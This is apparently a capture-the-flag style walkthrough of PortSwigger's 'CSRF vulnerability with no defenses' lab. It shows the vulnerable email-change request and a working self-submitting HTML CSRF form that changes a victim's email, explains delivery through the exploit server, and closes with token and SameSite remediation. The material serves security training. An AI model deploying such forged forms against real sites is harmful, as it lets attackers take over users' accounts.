







# CSRF vulnerability with no defenses

**Lab:** PortSwigger Web Security Academy — *CSRF vulnerability with no defenses* (Apprentice).

> The email-change functionality is vulnerable to CSRF. Craft HTML that uses a CSRF attack to change the viewer's email address, and host it on the exploit server. Credentials: `wiener:peter`.

This is the baseline case: the request has all three conditions for CSRF — a relevant action (changing the account email), cookie-only authentication, and no unpredictable parameter.

## 1. Log in and find the action

Log in as `wiener:peter` and open the account page, which exposes an **update email** form.





## 2. Inspect the request

Submit a new email with Burp intercepting. The request is a plain form POST whose only identity proof is the `session` cookie — there is no CSRF token anywhere:

```http
POST /my-account/change-email HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=...

email=test@test.com
```



## 3. Generate the CSRF PoC

Right-click the request → **Engagement tools → Generate CSRF PoC**. Burp produces a self-submitting HTML form:



```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@mail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## 4. Deliver it

Paste the PoC into the exploit server, store it, and **Deliver exploit to victim**. When the victim's browser loads the page it submits the form with their cookie attached, and their email is changed.







!!! warning "Use a fresh address in the final exploit"
    You cannot register an email already taken by another user. If you changed your own email while testing, put a *different* address in the exploit you deliver to the victim, or the attack will silently fail.

## Why the attack works

Nothing distinguishes the forged request from a genuine one. The browser attaches the victim's session cookie automatically, and because there is no secret token the attacker can reproduce every other parameter. The server authenticates the request and assumes it was intended.

## Remediation

Add a per-session CSRF token to the form and require it on the server for every state-changing request. Set the session cookie to `SameSite=Lax` so a cross-site POST would not carry it in the first place.
